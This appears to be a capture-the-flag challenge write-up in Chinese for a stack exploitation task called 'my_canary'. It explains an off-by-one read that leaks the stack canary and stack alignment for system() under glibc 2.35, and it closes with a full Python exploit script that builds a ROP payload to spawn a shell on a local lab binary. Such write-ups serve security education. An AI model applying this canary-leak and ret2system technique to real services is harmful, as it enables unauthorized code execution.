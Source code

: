 # my_canary

简单的栈题捏，有几个坑需要注意一下

- 带有system函数的程序需要设置gdb跟踪父进程调试
- 仔细检查read函数，有off-by-one的漏洞，循环判定多读了一字节，可以覆盖canary末尾零字节泄露canary
- 高版本libc，没有可用的gadget，利用gets函数调用前的mov rdi,rax这条汇编指令控制rdi，往栈顶写binsh
- 由于是glibc-2.35，system函数中多了一堆的push压栈操作，如果不在调用system函数之前进行多次抬栈的话很容易把写好的binsh直接覆盖掉
- ~~纯手搓canary，check之后发现no canary迷惑一下）~~

出这个题其实是有一次seccon被高版本的glibc折磨了很久，而且是最简单的栈题签到，然后就想着校赛也出一下，看着题目很简单，实际上也需要大家做题时仔细花时间去调试，希望对大家的调试技术的提高有所帮助

```python
from Excalibur2 import *

default('m')
# proc('./strange_system_local')
proc('./my_canary')
remo('127.0.0.1:34451')
# el('strange_system')
debug("b *0x40122C")


system = 0x401490
# system = plt('system')
# ret = 0x000000000040101a
ret = 0x0000000000401016

sd(b'a'*72+b'a')

ru(b'a'*73)
canary = u64(b'\x00'+rec(7))
# canary = (rec(7))
# canary = (rec(7).rjust(b'\x00'))
# canary = int(rec(7).ljust(b'\x00'),16)
pr(canary)
prh(canary)

# pay = b'sh\x00\x00'*6 + p64(canary)+ b'/bin/sh\x00' +p64(system)
# pay = b'sh\x00\x00'*6 + p64(canary)+ b'a'*8 +p64(system)
pay = b'sh\x00\x00' +b'a'*4 + p64(canary)+ b'a'*8 + p64(ret)* 4 + p64(system)
# pay = b'sh\x00\x00'*6 +p64(system)

# debug('b *0x000000000040101a')
sl(pay)

ia()

```

